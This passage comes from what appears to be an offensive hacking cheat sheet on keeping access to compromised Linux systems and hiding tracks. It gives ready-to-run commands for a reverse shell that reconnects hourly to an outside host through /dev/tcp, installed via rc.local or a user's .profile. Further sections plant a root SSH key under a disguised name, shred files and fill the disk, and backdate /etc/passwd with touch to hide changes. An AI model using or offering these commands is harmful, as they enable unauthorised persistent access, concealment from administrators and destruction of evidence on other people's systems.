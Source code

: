 6.i. Background reverse shell

A reverse shell that keeps trying to connect back to us every 3600 seconds (indefinitely). Often used until a real backdoor can be deployed and guarantees easy re-entry to a system in case our connection gets disconnected.

$ while :; do setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 3600; done &>/dev/null &

or add to /etc/rc.local:

nohup bash -c 'while :; do setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 3600; done' &>/dev/null &

or the user's ~/.profile (also stops multiple instances from being started):

fuser /dev/shm/.busy &>/dev/null
if [ $? -eq 1 ]; then
        nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 ; sleep 3600; done' &>/dev/null &
fi

6.ii. authorized_keys

Add your ssh public key to /root/.ssh/authorized_keys. It's the most reliable backdoor ever :>

    It survives reboots.
    It even survives re-installs. Admins have been known to make a backup of authorized_keys and then put it straight back onto the newly installed system.
    We have even seen our key being copied to other companies!

Tip: Change the name at the end of the ssh public keyfile to something obscure like backup@ubuntu or the admin's real name:

$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCktFkgm40GDkqYwJkNZVb+NLqYoUNSPVPLx0VDbJM0
[...]
u1i+MhhnCQxyBZbrWkFWyzEmmHjZdAZCK05FRXYZRI9yadmvo7QKtRmliqABMU9WGy210PTOLMltbt2C
c3zxLNse/xg0CC16elJpt7IqCFV19AqfHnK4YiXwVJ+M+PyAp/aEAujtHDHp backup@ubuntu

7.i. Shred & Erase a file

$ shred -z foobar.txt

7.ii. Shred & Erase without shred

$ FN=foobar.txt; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"

Note: Or deploy your files in /dev/shm directory so that no data is written to the harddrive. Data will be deleted on reboot.

Note: Or delete the file and then fill the entire harddrive with /dev/urandom and then rm -rf the dump file.

7.iii. Restore the date of a file

Let's say you have modified /etc/passwd but the file date now shows that /etc/passwd has been modifed. Use touch to change the file data to the date of another file (in this example, /etc/shadow)

$ touch -r /etc/shadow /etc/passwd
